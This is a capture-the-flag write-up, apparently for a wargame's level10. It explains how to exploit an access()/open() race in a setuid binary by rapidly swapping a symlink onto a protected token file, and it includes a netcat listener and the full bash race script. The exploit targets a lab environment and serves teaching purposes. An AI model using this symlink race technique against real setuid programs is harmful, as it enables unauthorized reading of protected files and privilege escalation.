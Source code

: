 # Level10

In orther to get the flag from `level10` program we need two things: a server listening on port 6969 and a script to exploit `access` function flaws.
Let's get a netcat server running.
>`while true;  do nc -l 6969 | grep -v '.*( )*.' ; done`


Our script will create a `random_file` and a `link`. Two loops will create symlinks: one linking the `random_file` to the `link`, and the other linking the `token` file to the `link`. This rapid replacement will exploit the access policy, allowing us to open the `token` file using the `level10` program.
```bash
#!/bin/bash

random_file=$(head -c 500 /dev/urandom | tr -dc 'a-zA-Z0-9~!@#$%^&*_-' | fold -w 25 | head -n 1)

touch /tmp/$random_file

link_name=$(head -c 500 /dev/urandom | tr -dc 'a-zA-Z0-9~!@#$%^&*_-' | fold -w 25 | head -n 1)

while true
do
        /home/user/level10/level10 /tmp/$link_name 127.0.1 &> /dev/null
done &

while true
do
        ln -fs /home/user/level10/token /tmp/$link_name
        ln -fs /tmp/$random_file /tmp/$link_name
done
```

Get the flag.
>`su flag10`

>`getflag`
